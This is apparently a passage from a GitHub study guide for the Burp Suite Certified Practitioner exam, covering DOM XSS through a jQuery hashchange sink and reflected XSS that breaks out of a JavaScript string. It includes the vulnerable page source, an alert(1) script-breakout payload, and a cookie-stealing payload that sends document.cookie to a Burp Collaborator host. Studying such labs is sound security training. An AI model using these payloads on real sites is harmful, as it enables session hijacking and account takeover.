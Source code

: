 [![Hashchange](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/hashchange.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/hashchange.png)

[PortSwigger Lab: DOM XSS in jQuery selector sink using a hashchange event](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event)

[Crypto-Cat: DOM XSS in jQuery selector sink using a hashchange event](https://github.com/Crypto-Cat/CTF/blob/main/web/WebSecurityAcademy/xss/dom_xss_jquery_hashchange/writeup.md)

### Reflected String XSS

> Submitting a search string and reviewing the `source code` of the search result page, the JavaScript string variable is _**identified**_ to reflect the search string `tracker.gif` in the `source code` with a variable named `searchTerms`.

```html
<section class=blog-header>
	<h1>0 search results for 'fuzzer'</h1>
	<hr>
</section>
<section class=search>
	<form action=/ method=GET>
		<input type=text placeholder='Search the blog...' name=term>
		<button type=submit class=button>Search</button>
    </form>
    </section>
	<script>
    var searchTerms = 'fuzzer';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

[![JavaScript string with single quote and backslash escaped](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/javascript-string-reflection.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/javascript-string-reflection.png)

> Using a payload `test'payload` and observe that a single quote gets backslash-escaped, preventing breaking out of the string.

```js
</script><script>alert(1)</script>
```

> Changing the payload to a cookie stealer that deliver the session token to Burp Collaborator.

```html
</script><script>document.location="https://OASTIFY.COM/?cookie="+document.cookie</script>
```

[![collaborator get cookies](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/collaborator-get-cookies.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/collaborator-get-cookies.png)

> When placing this payload in `iframe`, the target application do not allow it to be embedded and give message: `refused to connect`.
